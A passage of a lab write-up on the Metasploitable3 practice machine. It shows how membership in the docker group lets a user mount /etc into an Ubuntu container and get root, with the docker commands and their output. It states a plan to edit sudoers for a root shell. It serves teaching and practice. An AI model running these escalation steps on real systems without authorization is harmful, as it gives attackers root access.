 ### Gaining root taking advantage to the docker group

With user `boba_fett` in the docker group, we can issue docker commands without any restrictions. I will use docker command `docker images` to list the docker images on the system

```
boba_fett@metasploitable3-ub1404:~$ docker images
REPOSITORY                  TAG                 IMAGE ID            CREATED             SIZE
7_of_diamonds               latest              5e45125fa132        20 months ago       84.2MB
ubuntu                      latest              735f80812f90        20 months ago       83.5MB
krustyhack/docker-privesc   latest              6b5ae09db018        2 years ago         3.97MB
boba_fett@metasploitable3-ub1404:~$ 
```

From this printout I can see we have an `Ubuntu` image on the system. The attack vector that straight away comes to mind to is to map the `/etc/` directory to a directory `/root/` within the docker container. Within the container, I'll have access as root and be able to add user `boba_fett` into the sudoers file so he can issue all commands with the `sudo` without knowing his password and therefore go on and get a root shell using `sudo bash`.

To run a container and mount the `/etc` directory, I will use the following command, `docker run -dit -v /etc:/root ubuntu` and I can check the running container using `docker ps`

```
boba_fett@metasploitable3-ub1404:~$ docker run -dit -v /etc:/root ubuntu
5918a86e9463068479143edc7217831b17929096a80c82a330d2c3b5c6bfcac6
boba_fett@metasploitable3-ub1404:~$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
5918a86e9463        ubuntu              "/bin/bash"         16 seconds ago      Up 5 seconds                            cocky_wozniak
753bae4795cf        7_of_diamonds       "/bin/bash"         20 months ago       Up 5 hours                              7_of_diamonds
boba_fett@metasploitable3-ub1404:~$ 

```

We have our ubuntu container with id `5918a86e9463` running. Next step is to connect to our docker container, edit the `sudoers` file and insert details for `boba_fett` to be able to issue commands with sudo without entering his password(which we don't know).

```
boba_fett@metasploitable3-ub1404:~$ docker exec -it 5918a86e9463 /bin/bash
root@5918a86e9463:/# id
uid=0(root) gid=0(root) groups=0(root)
root@5918a86e9463:/# pwd
/
root@5918a86e9463:/# cd /root
root@5918a86e9463:~# cat passwd | grep boba_fett
boba_fett:x:1121:100::/home/boba_fett:/bin/bash
root@5918a86e9463:~#
```

From the printout above, it's clear we have root access in the docker container and have successfully mounted the `/etc/` directory in the `root` directory. A simple grep on the `passwd` file, we found our user's name. 
